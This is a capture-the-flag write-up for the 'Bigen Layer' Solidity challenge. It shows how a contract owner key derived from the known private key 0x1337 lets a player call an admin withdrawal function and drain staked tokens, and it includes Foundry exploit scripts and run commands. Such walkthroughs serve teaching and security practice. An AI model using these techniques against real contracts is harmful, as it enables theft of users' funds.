


# Bigen Layer

> [!NOTE]
> Easy | 73 solves

Bigen Layer was an easy-difficulty challenge released at the start of the CTF.
It's description didn't contain any information which would help solve the challenge,
simply mentioning the task being about a "restaking protocol" (the name and description are a reference to [Eigen Layer](https://www.eigenlayer.xyz/)):

> Tony Ads #1: Bigen Layer, an modern & secure restaking protocol, is designed to provide uniformed restaking entry for tokens. Dive deep into the complexities of these systems, and remember—the missing piece might just be found in unexpected places.

## TLDR

`16 ethers` worth of `ERC20` tokens are staked on a `BigenLayer` contract and
can be extorted by calling the owner-only `adminRequestWithdrawal` method using
the owner account `0x71556C38F44e17EC21F355Bd18416155000BF5a6` with a known
private key value, `0x1337`.

## Analysis

Bigen Layer, like nearly all other challenges, was implemented using [Foundry](https://book.getfoundry.sh/).
By analyzing the `Deploy.s.sol` forge script and `Challenge.sol` file, we can start
understanding the conditions needed for the challenge to be counted as solved:

```solidity
// Deploy.s.sol
challenge = address(new Challenge(player));

// Challenge.sol
constructor(address player) {
    PLAYER = player;
    token = new iPhone16();
    bigen = new BigenLayer(OWNER, token);

    token.approve(address(bigen), type(uint256).max);
    bigen.stake(TIM_COOK, 16 * 10 ** 18);
}

function isSolved() external view returns (bool) {
    return token.balanceOf(PLAYER) >= 16 * 10 ** 18;
}
```

Here, `iPhone16` is a basic `ERC20` token using the [Solady](https://github.com/vectorized/solady/blob/main/src/tokens/ERC20.sol) implementation.
It is used to initialize the `BigenLayer` contract, using which `16 ethers` worth of
`iPhone16` tokens are staked on behalf of the `TIM_COOK` address (`0x2011082420110824201108242011082420110824`).
Since the solution criteria is to get `16 ethers` worth of `iPhone16` tokens
onto the player's balance, and nobody besides the deployer and `BigenLayer`
addresses has any tokens, it initially seems like we have to exploit the contract
and steal the tokens from it to an address that we control.

Considering the solution requirements, we can start by finding the "sink" location of the
`BigenLayer` contract which `transfer` the tokens from it to other addresses.
The `stake` method only `transfer`s the tokens from the caller, so it can't be of use to us:

```solidity
function stake(address onBehalf, uint256 amount) external {
    // can't be used to transfer tokens to addresses besides the contract itself
    require(token.transferFrom(msg.sender, address(this), amount), "Transfer failed");
    stakedBalance[onBehalf] += amount;
}
```

`finalizeWithdrawal` is the only other method containing token `transfer` calls:

```solidity
function finalizeWithdrawal(address user) external {
    uint256 amount = pendingWithdrawals[user];
    require(amount > 0, "No pending withdrawal");
    require(block.timestamp >= withdrawalRequestTime[user] + 12 seconds, "Withdrawal too early");
    address recipient = withdrawalRecipient[user];
    pendingWithdrawals[user] = 0;
    // Transfer occurs here and requires all the checks above to pass
    require(token.transfer(recipient, amount), "Transfer failed");
}
```

For it to actually perform a transfer, it requires a withdrawal to be present
in the `pendingWithdrawals` mapping, which is written to only by the `_requestWithdrawal`
`internal` method:

```solidity
function _requestWithdrawal(address user, uint256 amount, address recipient) internal {
    require(stakedBalance[user] >= amount, "Insufficient balance");
    stakedBalance[user] -= amount;
    pendingWithdrawals[user] += amount;
    withdrawalRequestTime[user] = block.timestamp;
    withdrawalRecipient[user] = recipient;
}
```

What's interesting is that `_requestWithdrawal` allows specifying a recipient different
from the staker, which is exactly what we would need to extort tokens staked on behalf of
the `TIM_COOK` address. However, since `_requestWithdrawal` is `internal`, we need to find
the `public`/`external` methods that call it in order for it to be useful to us. The
`requestWithdrawal` method does call it, however it passes `msg.sender` as the `user`
argument, meaning it can only be used by the staker themselves to request a withdrawal.
`adminRequestWithdrawal` on the other hand, allows specifying any arguments for the
withdrawal, but is only callable by the address specified as the `owner` during contract
creation. It is practically a "rug pull" method 🙃

Despite this, `adminRequestWithdrawal` might be the method we need, since `BigenLayer`
initializes the `owner` address in a non-conventional way by actually receiving it
as a constructor argument. Usually, "ownable" smart contracts use the `msg.sender`
value during constructor initialization as the `owner` address.
`Challenge` uses the `0x71556C38F44e17EC21F355Bd18416155000BF5a6` address for the `owner` argument,
references to which can actually be found in Google:



From these links it becomes clear that the `0x71556C38F44e17EC21F355Bd18416155000BF5a6`
address is derived from the private key with a value of `0x1337`.
Knowing the private key of the `BigenLayer` owner allows us to execute a transaction
calling `adminRequestWithdrawal` with the `TIM_COOK` address as the staker
and our own address as the recipient to add a pending withdrawal for draining all the staked tokens.

## Solution

We can outline the solution as follows: first, request a withdrawal of all staked tokens
using `adminRequestWithdrawal`, then wait for a block with a timestamp 12 seconds after
the withdrawal request, and finally call `finalizeWithdrawal`.
The 12 second delay is necessary because its presence is checked in `finalizeWithdrawal`. Knowing that the solution needs to be performed in multiple blocks,
we can start by implementing the first step in a `forge` script:

```solidity
function requestWithdrawal() public {
    Challenge challenge = Challenge(address(vm.envAddress("CHALLENGE_ADDRESS")));
    uint256 PLAYER_PRIVATE_KEY = vm.envUint("PLAYER_PRIVATE_KEY");

    uint256 OWNER_PRIVATE_KEY = 0x1337;
    require(vm.addr(OWNER_PRIVATE_KEY) == challenge.OWNER());

    // Needed because the owner address has no money for gas :(
    vm.startBroadcast(PLAYER_PRIVATE_KEY);
    (bool ok, ) = vm.addr(OWNER_PRIVATE_KEY).call{value: 10 ether}("");
    require(ok, "Transfer failed");
    vm.stopBroadcast();

    vm.startBroadcast(OWNER_PRIVATE_KEY);
    challenge.bigen().adminRequestWithdrawal(
        challenge.TIM_COOK(),
        16 * 10 ** 18,
        challenge.PLAYER()
    );
    vm.stopBroadcast();
}
```

`CHALLENGE_ADDRESS` and `PLAYER_PRIVATE_KEY` here are environment variables set
using the team-dependent values given by the CTF infrastructure upon challenge deployment.
In this step, we first give the `owner` address some ether for transaction gas fees,
since it initially has none, and then perform the `adminRequestWithdrawal` call,
specifying the `OWNER_PRIVATE_KEY`, 0x1337, as the transaction sender in forge's `vm.startBroadcast`.

As the second step, we need to finalize the withdrawal in order to actually "solve" the challenge:

```solidity
function finalizeWithdrawal() public {
    Challenge challenge = Challenge(address(vm.envAddress("CHALLENGE_ADDRESS")));
    uint256 PLAYER_PRIVATE_KEY = vm.envUint("PLAYER_PRIVATE_KEY");

    vm.startBroadcast(PLAYER_PRIVATE_KEY);
    challenge.bigen().finalizeWithdrawal(challenge.TIM_COOK());
    vm.stopBroadcast();

    require(challenge.isSolved(), "Not solved");
}
```

Note that `finalizeWithdrawal` doesn't need to be called by the `owner` address,
allowing any address to call it, since the withdrawal requests are authorized upon creation,
and do not need to be revalidated.
Implementing these two methods is not enough, however, since the challenge's
blockchain node, [anvil](https://book.getfoundry.sh/anvil/) is configured
by the CTF infrastructure without automatic block mining enabled,
so we need to manually send additional dummy transactions to advance the block timestamps.
This can be done by adding a method to our forge script which simply transfers a tiny
amount of ether to the 0x0 address:

```solidity
function mine() public {
    uint256 PLAYER_PRIVATE_KEY = vm.envUint("PLAYER_PRIVATE_KEY");

    vm.startBroadcast(PLAYER_PRIVATE_KEY);
    (bool ok, ) = address(0).call{value: 1 wei}("");
    require(ok, "Transfer failed");
    vm.stopBroadcast();
}
```

The full solution script is available in the [./Solve.s.sol](./Solve.s.sol) file. It can be executed with these three commands to perform the entire solve:

1. `forge script -f '{RPC_URL}' --broadcast ./script/Solve.s.sol -s 'requestWithdrawal()'`
2. `forge script -f '{RPC_URL}' --broadcast ./script/Solve.s.sol -s 'mine()'`
3. `forge script -f '{RPC_URL}' --broadcast ./script/Solve.s.sol -s 'finalizeWithdrawal()'`

`RPC_URL` here is also returned by the CTF infrastructure upon challenge deployment, like the `CHALLENGE_ADDRESS` and `PLAYER_PRIVATE_KEY` values.

Aaand, the flag is captured! 🚩


